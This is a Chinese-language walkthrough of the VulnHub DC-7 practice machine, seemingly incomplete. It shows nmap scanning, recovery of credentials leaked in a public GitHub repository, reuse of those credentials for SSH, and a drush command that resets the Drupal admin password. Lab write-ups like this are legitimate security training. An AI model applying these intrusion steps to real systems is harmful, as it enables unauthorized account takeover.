

# DC 7

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-7,356/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.162
```


## 漏洞利用


下面提示@DC7USER，谷歌搜索发现Github

- https://github.com/Dc7User/staffdb


在config.php文件发现数据库mysql账号密码



但目标网站没有开放mysql端口，尝试用来SSH登录
`dc7user MdR3xOgB7#dW`
```bash
ssh dc7user@10.30.0.162
ls # 收到邮件提示查看
cat /var/mail/dc7user
```

是一个定时备份脚本，得到备份目录,进行查看


```bash
cat /opt/scripts/backups.sh
```


可以看到drush命令，可以用它来修改密码，drush为该网站的网站管理指令，可以通过该命令给网站后台添加一个用户名和密码
该命令必须在指定网站目录下使用，kali不具备该命令

```bash
cd /var/www/html
drush user-password admin --password="admin" # 成功修改，去登录
```

## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC7-WalkThrough.md
- http://www.kxsy.work/2021/08/06/shen-tou-dc-7/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/yrk4mg